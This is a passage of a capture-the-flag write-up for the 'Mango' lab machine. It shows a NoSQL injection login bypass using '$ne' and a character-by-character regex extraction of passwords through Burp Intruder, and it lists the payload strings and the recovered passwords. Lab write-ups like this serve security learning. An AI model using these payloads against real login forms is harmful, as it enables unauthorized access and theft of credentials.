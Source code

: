 The web page is a simple authentication form.

![Mango login page](/media/2020.04/mango_2.png)

# NoSQL injection

The name of the box: Mango is a hint about the framework used. First off all I
thought about [MangoDB](https://www.mongodb.com/) but there is also a lot of
framework named "mango" like [Mangomap](https://mangomap.com) or [Mangoapps](https://www.mangoapps.com/).

MangoDB is a [NoSQL](https://en.wikipedia.org/wiki/NoSQL) database. Classical
SQL injections will not work on it. But there is specific
[NoSQL Injection] (https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

When we try to login as "admin" with the password "place" the POST parameters
are the following: `username=admin&password=place&login=login`

We edit the request with Burp and send the following:
`username=admin&password[%24ne]=place&login=login`

We bypass the authentication and are logged in as admin. But the new page is
a static page with just some SVG images and a message indicating that the site
is building.

![Mango plantation](/media/2020.04/mango_3.png)

**note:** I realized after exploiting the following that I was not getting the
information about admin password but an other account as my payload have a
`[$ne]` (not equal) in the username parameter.

We can get more information about the admin password's length using some
"regex". By incrementing the following numeric parameter with Burp repeater (or
intruder) in the following query
we can learn that the admin password is 16 characters long. In fact the
application send back a redirection until the parameter is 17 then just sending a 200.

`username[%24ne]=admin&password[%24regex]=.{16}&login=login`

Then we can get the password character by character using the intruder and
[a list of printable characters](https://github.com/maggick/vrac/blob/master/printable_chars)
and a specific payload. When sorting the application answers by Status code we
get the characters.

![Mango getting the password](/media/2020.04/mango_4.png)

    :::text
    username[%24ne]=admin&password[%24regex]=h3§q§.{13}&login=login
    username[%24ne]=admin&password[%24regex]=h3m§q§.{12}&login=login
    username[%24ne]=admin&password[%24regex]=h3mXK8RhU§q§.{6}&login=login
    username[%24ne]=admin&password[%24regex]=h3mXK8RhU~f{]f5§q§.{0}&login=login

We finally get the password `h3mXK8RhU~f{]f5H`. We try to login with it but this
not the admin password as mentioned earlier. We repeat the process with the
following payload and get the admin password `t9KcS3>!0B#2`.
